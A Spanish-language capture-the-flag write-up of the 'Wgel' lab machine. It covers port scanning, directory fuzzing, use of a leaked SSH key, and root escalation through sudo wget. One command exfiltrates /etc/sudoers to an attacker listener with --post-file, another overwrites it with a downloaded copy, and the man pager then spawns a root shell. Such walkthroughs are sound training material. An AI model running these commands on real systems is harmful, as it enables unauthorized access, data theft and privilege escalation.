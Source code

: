 ```yaml
---
title: Wgel
date: 2024-10-01
categories: [WRITEUPS, PREPARING EJPTv2]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


![picture](/assets/images/ejptv2/wgel1.png)

---

La máquina **Wgel** es bastante sencilla, encuentro una clave privada de **SSH** filtrada, y la escalada de privilegios ha estado entretenida, se ha dado gracias a los permisos de **SUDO** sobre un binario.

---

Lo primero que voy a hacer es un escaneo con `Nmap` para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open --min-rate=5000 10.10.50.251 -n -Pn -v
```

![picture](/assets/images/ejptv2/wgel2.png){: w="600" h="300" }

Una vez encontrados los puertos, me voy al navegador para ver el contenido corriendo por el puerto `80`.

Y encuentro una página por defecto de `Apache2`.

![picture](/assets/images/ejptv2/wgel3.png)

En el código fuente de la página, encuentro un texto comentado junto a un nombre de un posible usuario.

![picture](/assets/images/ejptv2/wgel4.png)

A continuación, voy a utilizar la herramienta `Gobuster` para realizar `Fuzzing` mediante un ataque de fuerza bruta para intentar listar archivos y directorios.

```bash
gobuster dir -u http://10.10.50.251 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.md -b 500,404,403 -t 200 2>/dev/null
```

Y encuentra un directorio llamado `sitemap`.

![picture](/assets/images/ejptv2/wgel5.png)

Visitando el directorio encontrado veo que se trata de una web para crear plantillas, investigando sobre la página no encuentro nada interesante.

![picture](/assets/images/ejptv2/wgel6.png)

Y volviendo a realizar `Fuzzing` sobre la página web encuentro lo siguiente.

```bash
gobuster dir -u http://10.10.94.229/sitemap -w /usr/share/SecLists/Discovery/Web-Content/common.txt -x txt,php,md -t 200 -b 404,403
```

Es extraño encontrar el directorio `ssh` filtrado. Introduciéndolo en la web encuentro una clave privada de `SSH`.

![picture](/assets/images/ejptv2/wgel7.png)

En el navegador encuentro una clave privada.

![picture](/assets/images/ejptv2/wgel8.png){: w="600" h="300" }

![picture](/assets/images/ejptv2/wgel9.png){: w="600" h="300" }

La copio, y creo en mi máquina local un archivo llamado `id_rsa`, con permisos `600`.

Intento acceder al servidor con el nombre de usuario encontrado y la clave privada vía `SSH`, y obtengo resultado.

```bash
chmod 600 id_rsa
ssh -i id_rsa jessie@10.10.94.229
```

![picture](/assets/images/ejptv2/wgel10.png){: w="600" h="300" }

En su carpeta personal encontramos la primera `flag` de usuario.

Listando los permisos de `SUDO` de `Jessie`, encuentro que no necesita utilizar contraseña para el binario `/usr/bin/wget`.

![picture](/assets/images/ejptv2/wgel11.png)

Para la escalada de privilegios con `Wget`, utilizando la opción `--post-file`, se pueden enviar datos en el cuerpo de una solicitud `POST`, y al poder utilizar el binario con `SUDO`, podríamos obtener el output de cualquier archivo existente de la máquina.

Luego podríamos crear un archivo con el mismo contenido en nuestra máquina local, pero modificándolo para la escalada de privilegios, y sobrescribirlo en el servidor.

Para esta caso en concreto, obtendré el output del archivo `Sudoers`, y lo modificaré para que `Jessie` tampoco necesite utilizar contraseña para el binario `/usr/bin/man`.

- Pasos

	- Listener en la máquina local para recibir el output del archivo.

    ```bash
    nc -lnvp 4444
    ```

	- Enviamos la solicitud ``POST`` desde la máquina víctima.

    ```bash
    sudo /usr/bin/wget --post-file=/etc/sudoers 'Nuestra IP':4444
    ```

- Resultado

    ![picture](/assets/images/ejptv2/wgel12.png)

Ahora copiamos el contenido del archivo, creamos uno en nuestra máquina local llamado `sudoers`, y lo modificamos.

![picture](/assets/images/ejptv2/wgel13.png){: w="600" h="300" }

A continuación creamos un servidor `HTTP` con `Python3`, para poder descargarnos desde la máquina víctima el nuevo archivo `Sudoers`, y sobrescribirlo por el que está.

- Servidor `HTTP`.

    ```bash
    python3 -m http.server 1234
    ```

- Descarga del archivo sobrescribiéndolo por el antiguo.

    ```bash
    sudo /usr/bin/wget http://'Nuestra IP':1234/sudoers -O /etc/sudoers
    ```

Si vuelvo a realizar un `sudo -l`, para listar los permisos de `SUDO` de `Jessie`, veo que se ha añadido el binario que he elegido.

![picture](/assets/images/ejptv2/wgel14.png)

Para escalar privilegios a `root`, usamos el binario `/usr/bin/man` con `SUDO` sobre algún otro binario, como por ejemplo `ping`, y ejecutamos una bash.

```bash
sudo /usr/bin/man ping
!/bin/bash
```

![picture](/assets/images/ejptv2/wgel15.png)

Clicamos enter, y obtenemos una bash como usuario `root`.

En su carpeta personal encontramos la segunda ``flag``.

![picture](/assets/images/ejptv2/wgel16.png)